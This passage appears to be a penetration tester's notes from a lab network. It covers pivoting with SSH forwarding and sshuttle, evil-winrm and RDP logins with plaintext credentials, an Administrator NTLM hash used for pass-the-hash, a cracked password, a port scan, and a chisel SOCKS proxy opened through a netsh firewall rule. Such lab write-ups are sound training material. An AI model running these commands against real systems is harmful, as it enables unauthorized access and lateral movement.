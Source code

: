 ```bash


ssh -i id_rsa_tar1_root root@10.200.185.200 -L 58950:10.200.185.150:58950

sshuttle -r root@10.200.185.200 --ssh-cmd "ssh -i id_rsa_tar1_root" 10.200.185.200/24 -x 10.200.185.200 

it uses ssh to create a vpn
-x is for excluding the target ip to include in the subnet

evil-winrm -u void -p helloworld -i 10.200.185.150

xfreerdp /v:10.200.185.150 /u:void /p:helloworld +clipboard /dynamic-resolution /drive:./,share


Administrators:
37db630168e5f82aafa8461e05c6bbd1

Thomas:
02d90eda8f6b6b06c32d5f207831101f - i<3ruby - Possible algorithms: NTLM

evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.185.150
                    
use -s folder name to automatically import the scripts in the connection
```

## TARGET 3 10.200.185.100
```bash
Invoke-Portscan -Hosts 10.200.185.100 -TopPorts 50

Hostname      : 10.200.185.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 5900, 993...}
finishTime    : 1/21/2022 12:37:56 PM


*Evil-WinRM* PS C:\Users\Administrator\Documents> upload chisel_1.7.3_windows_amd64


When using this option you will need to open up a port in the Windows firewall to allow the forward connection to be made. The syntax for opening a port using netsh looks something like this:

netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT

Please use the name-USERNAME naming convention -- for example:

netsh advfirewall firewall add rule name="Chisel-Void" dir=in action=allow protocol=tcp localport=47000

First, on the compromised host we would use:
./chisel server -p LISTEN_PORT --socks5
./chisel_void.exe server -p 47000 --socks5


On our own attacking box we would then use:
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
./chisel client 10.200.185.150:47000 9000:socks

Directory: C:\GitStack\repositories\Website.git

```